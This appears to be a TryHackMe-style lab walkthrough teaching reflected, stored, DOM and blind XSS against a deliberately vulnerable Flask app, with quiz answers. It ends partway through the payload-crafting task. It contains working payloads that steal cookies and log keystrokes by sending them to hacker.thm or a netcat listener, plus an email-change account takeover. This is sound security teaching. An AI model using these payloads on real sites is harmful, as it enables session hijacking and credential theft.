# XSS Introduction

Learn to detect and exploit XSS to control visitors’ browsers.

## Task 1. Introduction

Web applications power most business workflows, and **Cross-Site Scripting (XSS)** remains one of the easiest paths for attackers to compromise users. Recent incidents show that XSS is being used to steal sessions, deliver malware, and escalate attacks within a network. In this room, we'll focus on real-world XSS; how an attacker turns a vulnerable input into a working exploit; and practical mitigations developers can apply to reduce risk.

### Scenario

*A company has asked you to perform a penetration test on their internal web application. The application includes a public comments section, a user dashboard, and a news search option.*

An immediate pentest is required to identify any vulnerabilities and prevent any data exfiltration or further damage.

### Learning Objectives

This room will teach you about the following concepts:

- Understand common terminologies linked with XSS
- Identify and classify XSS types: reflected, stored, and DOM
- How to exploit XSS vulnerabilities
- Mitigation techniques for XSS vulnerabilities

### Prerequisites

We expect you to have a fair understanding of the following concepts before starting the room:

- Understanding of IP addresses, ports, and protocols ([Networking Concepts](https://tryhackme.com/room/networkingconcepts) room)
- Familiarity with Windows system administration, including event logs and file system structure. ([Windows Fundamentals 1](https://tryhackme.com/r/room/windowsfundamentals1xbx) room)
- Cybersecurity Fundamentals: Basic knowledge of malware, phishing, and common attack vectors ([Phishing Basics](https://tryhackme.com/room/phishingbasics) and [Phishing Emails](https://tryhackme.com/r/room/phishingemails2rytmuv) room)

### Machine Access

Launch the AttackBox using the `Start AttackBox` button, and the Lab machine using the `Start Lab Machine` button below.



### Questions

I understand the learning objectives and am ready to learn about XSS!

> No answer needed

## Task 2. Important Terminologies

In this task, we’ll cover the basic terms you must understand to master XSS.

- **Document Object Model (DOM)**: The Document Object Model (DOM) is the browser’s live, structured representation of a web page, essentially a tree of elements (tags, text, attributes) that your JavaScript can read and change. Think of it as the page’s in-memory blueprint; when JS updates the DOM, the visible page updates immediately.


- **URL parameters**: URL parameters (query strings) are the bits after `?` in a URL that pass data to the site, for example, `https://site.com/search?q=hello` has a `q` parameter with the value `hello`. They’re user-controllable (typed in the address bar or sent by links/forms), so treat their values as untrusted input.
- **JavaScript**: The scripting language that runs inside the browser. XSS payloads are usually small JavaScript snippets that run in the victim’s page context and can read or modify the DOM, make network requests, or access cookies (unless protected).
- **Cookies**: Cookies store small pieces of data in the browser (session IDs, preferences). If a cookie is readable by JavaScript and an attacker can run JS via XSS, they can steal that cookie and hijack a session. `HttpOnly` is a flag that prevents JavaScript from reading the cookie (good).
- **Escaping**: Escaping (output encoding) means transforming user data so the browser treats it as plain text, not code, for example, turning `<` into `&lt`; so `<script>` becomes harmless text. A filter (input validation) checks that the input looks allowed (letters, numbers, length), but doesn’t stop data from becoming code when it’s later placed into a page. For example, raw user input `<script>alert(1)</script>` will be  escaped for HTML becomes `&lt;script&gt;alert(1)&lt;/script&gt`.

### Questions

What is the URL parameter in the URL `http://google.com/text=?`

> text

Which is the most renowned scripting language for adding interactivity to the DOM?

> javascript

## Task 3. XSS Payloads

### What Is an XSS Payload?

In the context of XSS, a payload is the JavaScript code an attacker injects into a web application that runs in another user's browser.

When a vulnerable website accepts user input and displays it without properly filtering it, the browser may interpret the injected code as part of the webpage. Once this happens, the JavaScript executes in the victim’s browser just like legitimate code on the page.



An XSS payload usually has two parts:

**Intention**

This is what the attacker wants the code to do. Examples include displaying a proof of concept, stealing session cookies, logging keystrokes, or performing actions on behalf of the user.

**Modification**

Every web application handles input differently. Because of this, attackers often need to modify the payload so that it executes correctly in a specific location on the page. For example, the payload may need to escape from an HTML tag, attribute, or JavaScript block before executing.

In practice, pentesters rarely use the same payload across all targets. Instead, they adjust it depending on how the input is reflected in the page.

### Testing for XSS

When testing for XSS, pentesters usually start with a simple payload to confirm whether JavaScript can be executed.

A common testing payload is:

```python
<script>alert('XSS')</script>
```

If the application is vulnerable, the browser will execute the injected script and display a pop-up message. This confirms that JavaScript can run in the victim’s browser.

Once this is confirmed, the tester can replace the test payload with a more useful one.

### Where Payloads Are Injected

XSS payloads are typically injected into areas of a website that accept and display user input.

- Search fields
- Comment sections
- Profile names
- Feedback forms
- URL parameters

For example, if a search page reflects user input in the URL:

```python
https://site.thm/search?q=hello
```

And the application displays:

```python
You searched for: hello
```

An attacker could instead supply:

```python
<script>alert(1)</script>
```

If the input is not sanitised, the browser will execute the injected JavaScript.

### Examples of XSS Intentions

**Proof of Concept**

This is the simplest payload. Its purpose is only to demonstrate that XSS is possible on a website.

```python
<script>alert('XSS')</script>
```

Security testers often use this payload during testing to confirm that JavaScript can execute.

**Session Stealing**

Web applications often store session identifiers in browser cookies. If an attacker can obtain these cookies, they may be able to impersonate the user.

The following payload sends the victim’s cookies to a server controlled by the attacker:

```python
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

The `btoa()` function encodes the cookie value for safe transmission.

**Key Logger**

A key logger records everything a user types on the page. This could capture usernames, passwords, or credit card details.

```python
<script>
document.onkeypress = function(e) {
fetch('https://hacker.thm/log?key=' + btoa(e.key));
}
</script>
```

Every key pressed by the victim is sent to the attacker’s server.

**Business Logic Attacks**

Some payloads target specific functionality within the application. For example, imagine a JavaScript function called `user.changeEmail()` that changes the user's email address.

An attacker could abuse this function with a payload like:

```python
<script>user.changeEmail('attacker@hacker.thm');</script>
```

If successful, the attacker may then reset the victim's password and take over the victim’s account.

The next four tasks will explore different types of XSS vulnerabilities, each requiring slightly different payloads and levels of user interaction.

### Questions

Which document property could contain the user's session token?

> document.cookie

Which JavaScript method is often used as a Proof of Concept?

> alert

## Task 4. Reflected XSS - Non-Persistent

Moving forward, we will go through the types of XSS, starting with **Reflected XSS**.

Reflected XSS occurs when a web app takes user input (such as a query string, form field, or header) and immediately displays it on a page without sanitising it. An attacker crafts a malicious link or form that contains JavaScript and convinces a victim to click it; because the site "reflects" the attacker’s input, the browser runs the injected script in the site’s origin. Typical triggers are search boxes, error messages, or any page that echoes parameters from the URL or `POST` body.


When the injected script runs in the victim’s browser, it can read or modify the page, steal cookies or session tokens (unless those cookies are `HttpOnly`), perform actions on behalf of the user, or load other malicious content. The root cause is outputting untrusted data as code rather than escaping it for the appropriate context.

### Practical

For the practical section, consider the following code snippet.

**app.py**:

```python
from flask import Flask, request, render_template, redirect
from markupsafe import escape
from datetime import datetime

app = Flask(__name__)

# helper for template footer (year)
@app.context_processor
def inject_now():
    return {"now": lambda: datetime.utcnow().year}

NEWS = [
    {"title": "Product launch: SecureMail", "summary": "A privacy-focused email client arrives."},
    {"title": "Weekly Roundup", "summary": "Top vulnerabilities and patches this week."},
    {"title": "Research: XSS Trends 2025", "summary": "A short summary of XSS cases observed in the wild."},
]

COMMENTS = []

@app.route("/")
def home():

    q = request.args.get("q", "")
    query_escaped = escape(q) 
    return render_template("news.html", news=NEWS, query=q, query_escaped=query_escaped)

@app.route("/guestbook", methods=["GET", "POST"])
def guestbook():

    if request.method == "POST":
        name = request.form.get("name", "Anonymous")
        comment = request.form.get("comment", "")
        
        COMMENTS.append({"name": escape(name), "comment": comment})
        return redirect("/guestbook")

    return render_template("guestbook.html", comments=COMMENTS)

@app.route("/dom")
def dom_preview():

    return render_template("dom_preview.html")

if __name__ == "__main__":
    # bind to all interfaces for lab convenience (change to 127.0.0.1 for local-only)
    app.run(debug=True, host="0.0.0.0", port=5000)
```

Use Mozilla Firefox on the AttackBox to navigate to `http://10.48.187.3:5000` to access the website. If you are connected through the VPN, open a browser and visit the lab URL `http://10.48.187.3:5000/`. You should see the AtlasNews webpage with the search box at the top.



In the search box, paste a simple test word like "product" and then click **Search** to see the results, as shown below:



Now, as a pentester, we will dig deeper and paste some interesting code like `<script>alert('Hack')</script>`. If the page is vulnerable, you will see a browser alert pop up and the injected content appearing inside the search results area.



This is a reflected XSS; the app reads the `q` query parameter from the URL and immediately renders it back into the page, so an attacker-controlled value in the URL executes in the victim’s browser.

### Root Cause

In the `app.py` of the web application, the handler passes the raw parameter into the template:

```python
return render_template("news.html", news=NEWS, query=q, query_escaped=query_escaped)
```

The `q` comes from `q = request.args.get("q", ""))`, which is the source of untrusted data.

### Questions

What is the text shown in the alert pop-up after a successful XSS attack?

> Hack

What is the response, if you use the payload `<script>alert('Test123')</script>`?

> Test123

## Task 5. Stored XSS - Persistent

**Stored XSS** happens when an application saves **attacker-controlled input on the server** (in a database, normally) and later serves that content to other users without proper escaping, causing the injected script to run in every visitor’s browser.

Stored XSS is more impactful than reflected XSS because the payload persists and can affect many users (admins, site visitors) over time. An attacker can plant a script in a comment, profile bio, message, or admin-only panel; whenever anyone (including admins) views that page, the browser executes the injected JavaScript in the context of the vulnerable origin. That script can steal session tokens and perform actions on behalf of the user. Stored XSS is commonly found in comment sections, user profiles, message boards, product reviews, and file upload features that render metadata.



### Practical

Navigate to the Guestbook page on `http://10.48.187.3:5000/guestbook`. In the Comment form, paste the simple test payload `<script>alert('You are Hacked')</script>`, and click **Submit**. The comments will be saved and will be viewed by other users as well.



Reload the page; if the page is vulnerable, you will see the alert pop-up. The payload persists, so any new visitor to the comments page will execute it.



### Root Cause

The app directly rendered attacker-controlled input as raw HTML (`{{ query|safe }} and {{ c.comment|safe }}`) or stored raw comments and later rendered them without escaping. This lets injected `<script>` (or other HTML) execute in visitors’ browsers. It happened because the code bypassed automatic escaping and treated untrusted input as already safe.

### Questions

What is the alert pop-up after executing the payload mentioned in the task?

> You are Hacked

## Task 6. DOM-Based XSS - CLient Side

DOM-based XSS occurs when client-side JavaScript reads attacker-controllable data from the DOM (`URL`, `location.hash`, `location.search`, `document.referrer`, `localStorage`, etc.) and writes it back into the page in an unsafe way (e.g. `innerHTML`, `document.write`, `eval`). The payload never needs to touch the server; the browser DOM itself becomes the attack surface, and the injected script runs immediately in the page’s origin.


### Practical

Navigate to the **News Preview** page on `http://10.48.187.3:5000/dom`.



In the page’s **Manual preview text** form paste ``. Click **Preview**, and you will see the following pop-up:



### Root Cause

The client-side script read attacker-controlled data (fragment) and wrote it directly into the page with `innerHTML`, so the browser parsed and executed the injected `` payload. The code trusted untrusted input and used a dangerous sink (`innerHTML`) instead of treating the value as text or sanitising it, and the input didn't reach the server, so server-side defences don’t help.

### Questions

What is the alert pop-up after executing the XSS payload?

> Hacked you again

Does DOM XSS also occur on the server side? (yea/nay)

> nay

## Task 7. Blind XSS

**Blind XSS** is similar to a stored XSS (which we covered in Task 5) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or test it against yourself first.

A website has a contact form where you can message a member of staff. The message content isn’t checked for malicious code, allowing the attacker to enter anything they wish. These messages are then turned into support tickets, which staff view on a private web portal.


Using the correct payload, the attacker's JavaScript could make calls back to the attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

### How To Test for Blind XSS

When testing for Blind XSS vulnerabilities, ensure your payload includes a callback (typically an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

### Practical

Navigate to the Acme IT Support website on `http://10.48.187.3:8080`. Then, click on the **Customers** tab on the top navigation bar and click the **Signup here** link to create an account. Once your account is set up, log in and click the **Support Tickets** tab, which is where we will investigate for weaknesses.



Try creating a support ticket by clicking the green **Create Ticket** button, enter the word “**test**” for the **Ticket Subject** and **Tickets Contents** and then click the blue **Create Ticket** button. You'll now notice your new ticket in the list with an `ID` number you can click to open it.



As in Task 4, we will investigate how the previously entered text is reflected on the page. Upon viewing the page source, we can see that the text gets placed inside a `textarea` tag.





Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the Ticket Subject:

```shell
</textarea>test
```

Again, opening the ticket and viewing the page source, we've successfully escaped the `textarea` tag.





Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:

```shell
</textarea><script>alert('THM');</script>
```

Now, when you view the ticket, you should see an alert box with the string "THM". We're now going to expand the payload even further and increase the impact of the vulnerabilities. Because this feature creates a support ticket, we can reasonably expect a staff member to view it and execute the JavaScript.

**Extracting Cookies**

Some helpful information to extract from another user would be their **cookies**, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another web server server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port `9001`, we can run the command `nc -nlvp 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. The `-n` option avoids resolving hostnames via DNS, and `-v` runs Netcat in verbose mode.

```shell
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
```

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

```shell
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>` closes the JavaScript code block.

Now create another ticket using the above payload in the **Ticket Subject** field, making sure to replace the `URL_OR_IP:PORT_NUMBER` variables with your settings (make sure to specify the port number for the Netcat listener as well). Now, wait up to a minute, and you will see the request come through containing the victim’s cookies.

**Note: You may encounter issues with receiving the request using your own VM and the VPN. It is recommended that you use the AttackBox for this task.**

You can now base64-decode this information using a site like [https://www.base64decode.org/](https://www.base64decode.org/).

### Questions

What type of XSS is very similar to Blind XSS?

> Stored XSS

Extract the user's cookies using netcat and the payload. What is the `Connection:` value returned in the Netcat output?

> keep-alive

## Task 8. Perfecting your Payload

The payload is the JavaScript code we want to execute either in another user's browser or as a proof-of-concept to demonstrate a vulnerability on a website.

Your payload could have many purposes, from simply displaying a JavaScript alert box to prove we can execute JavaScript on the target website to extracting information from the webpage or the user's session.

How your JavaScript payload is reflected in a target website's code will determine which payload you need. To further practice this, access the website on `http://10.48.187.3` or use [https://10-48-187-3.reverse-proxy.cell-prod-ap-south-1a.vm.tryhackme.com](https://10-48-187-3.reverse-proxy.cell-prod-ap-south-1a.vm.tryhackme.com/), which will show the following page:



The aim for each level will be to execute the JavaScript alert function with the string "THM", like:

```shell
<script>alert('THM');</script>
```

### Level One

You're presented with a form asking you to enter your name, and once you've entered your name, it will be presented on a line below, for example:



If you view the **Page Source**, you'll see your name reflected in the code:

